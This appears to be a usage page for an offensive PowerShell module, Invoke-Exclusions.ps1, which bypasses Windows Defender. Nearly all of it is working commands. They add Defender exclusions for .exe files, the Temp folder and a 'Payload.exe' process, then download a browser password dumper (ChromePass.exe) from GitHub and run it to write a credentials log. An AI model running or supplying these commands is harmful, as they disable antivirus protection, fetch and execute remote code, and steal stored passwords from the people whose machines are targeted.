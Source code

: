 ## Module Name
   <b><i>Invoke-Exclusions.ps1</i></b>

|Cmdlet name|Description|Privileges|Notes|
|---|---|---|---|
|Invoke-Exclusions|Add exclusions (Set-MpPreference) + Download\Execute url cmdlet|Administrator|[Screenshot](https://null)|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WD-Bypass/Invoke-Exclusions.ps1" -OutFile "Invoke-Exclusions.ps1"
```

<br />

**prerequesites checks:**
```powershell
#Make sure Windows Defender service its running
[bool](Get-Service -Name WinDefend)

#Make sure we have administrator privileges in shell
[bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -match "S-1-5-32-544")

#Make sure required modules are present\loaded
[bool]((Get-Module -ListAvailable -Name ConfigDefender).ExportedCommands|findstr /C:"Set-MpPreference")
```

```powershell
#Get full module information
Get-help .\Invoke-Exclusions.ps1 -Force

#Get Exclusions List
.\Invoke-Exclusions.ps1 -action "query"


#Set-MpPreference -ExclusionExtension "exe" -Force
.\Invoke-Exclusions.ps1 -action "add" -type "ExclusionExtension" -Exclude "exe"

#Set-MpPreference -ExclusionPath "C:\Users\pedro\AppData\Local\Temp" -Force
.\Invoke-Exclusions.ps1 -action "add" -type "ExclusionPath" -Exclude "$Env:TMP"

#Set-MpPreference -ExclusionProcess "C:\Users\pedro\AppData\Local\Temp\Payload.exe" -Force
.\Invoke-Exclusions.ps1 -action "add" -type "ExclusionProcess" -Exclude "$Env:TMP\Payload.exe"


## Add exclusion + download URI PE + execute PE
#Set-MpPreference -ExclusionPath "C:\Users\pedro\AppData\Local\Temp" -Force
.\Invoke-Exclusions.ps1 -action "exec" -type "ExclusionPath" -Exclude "$Env:TMP" -Uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/ChromePass.exe" -Arguments "/stext credentials.log"


#Remove-MpPreference -ExclusionProcess "$Env:TMP\Payload.exe" Force
.\Invoke-Exclusions.ps1 -action "del" -type "ExclusionProcess" -Exclude "$Env:TMP\Payload.exe"

```
